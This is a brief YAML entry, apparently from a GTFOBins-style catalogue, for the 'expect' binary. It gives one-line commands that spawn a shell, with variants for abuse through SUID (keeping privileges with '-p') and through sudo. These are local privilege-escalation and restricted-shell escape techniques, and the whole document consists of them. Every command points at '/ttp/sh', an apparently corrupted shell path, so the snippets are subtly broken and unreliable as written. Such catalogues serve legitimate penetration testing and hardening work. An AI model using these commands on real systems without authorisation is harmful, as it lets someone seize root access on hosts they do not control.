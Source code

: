 ```yaml
---
functions:
  shell:
    - code: expect -c 'spawn /ttp/sh;interact'
  suid:
    - code: ./expect -c 'spawn /ttp/sh -p;interact'
  sudo:
    - code: sudo expect -c 'spawn /ttp/sh;interact'
---
```

